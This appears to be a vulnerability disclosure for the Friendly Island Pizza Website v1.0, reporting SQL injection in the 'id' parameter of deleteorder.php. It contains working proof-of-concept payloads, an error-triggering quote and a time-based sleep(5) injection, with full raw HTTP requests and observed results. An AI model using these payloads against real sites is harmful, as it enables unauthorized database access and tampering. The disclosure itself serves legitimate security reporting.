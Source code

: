 # Friendly Island Pizza Website and Ordering System v1.0 has SQL injection

BUG_Author: a-xsg

Website source address:https://www.sourcecodester.com/php/14730/friendly-island-pizza-website-php-mysql.html

Vulnerability File: /friendlyispizzawebsite/deleteorder.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1'

```
GET /friendlyispizzawebsite/deleteorder.php?id=1%27 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=aql7l22ttmd7fs98jtsq05lc6p
Connection: close
```

An error occurred in the sql statement

![image](https://github.com/a-xsg/bug_report/blob/main/vendors/picture/error.png)

Payload2:id=1' and (select 1 from (select(sleep(5)))a)-- 

```
GET /friendlyispizzawebsite/deleteorder.php?id=1%27%20and%20(select%201%20from%20(select(sleep(5)))a)--%20a HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=aql7l22ttmd7fs98jtsq05lc6p
Connection: close
```

Server response time is 5 seconds

![image](https://github.com/a-xsg/bug_report/blob/main/vendors/picture/sleep.png)
